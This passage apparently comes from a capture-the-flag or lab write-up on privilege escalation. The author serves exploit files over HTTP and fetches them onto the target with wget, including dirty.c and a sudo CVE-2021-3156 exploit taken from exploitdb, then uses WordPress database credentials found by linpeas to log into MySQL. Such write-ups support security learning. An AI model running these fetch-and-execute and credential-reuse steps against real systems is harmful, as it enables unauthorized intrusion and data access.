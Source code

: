 Now on the remote machine we need to somehow grab this file. Let's start a server on the host machine:

```
python -m http.server
```

Navigate to `/tmp` on the remote machine and type:

```
wget http://<HOST MACHINE IP>:8000/dirty.c
```

The instruction dictates we have to compile this file on the remote machine:

```
gcc -pthread dirty.c -o dirty -lcrypt
```

It appears that gcc isn't available on the remote machine. Let's try compiling it locally and then uploading it to the remote machine.

```
wget http://<HOST MACHINE IP>:8000/dirty
```

It appears some libraries aren't found. This is why we needed it compiled on the remote machine in the first place. Moving on. 

```
searchsploit --cve 2021-3156
```

There is a python exploit we can use. Let's try it:

```
cp /usr/share/exploitdb/exploits/multiple/local/49521.py exploit.py
python -m http.server
```

On the remote machine:

```
wget http://<HOST MACHINE IP>:8000/exploit.py
python3 exploit.py
```

There's some error in the code, which isn't very verbose. I think I'll move on for now. A lot of other options are written in C, which isn't available in our situation. Looking through the `linpeas.out` I notice it found credentials for the `Wordpress` database used on the website:

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'sup3r_s3cr3t');
define('DB_HOST', 'localhost');
```

Let's try to use it to log into mysql database:

```
mysql -u root -p wordpress -h localhost
```
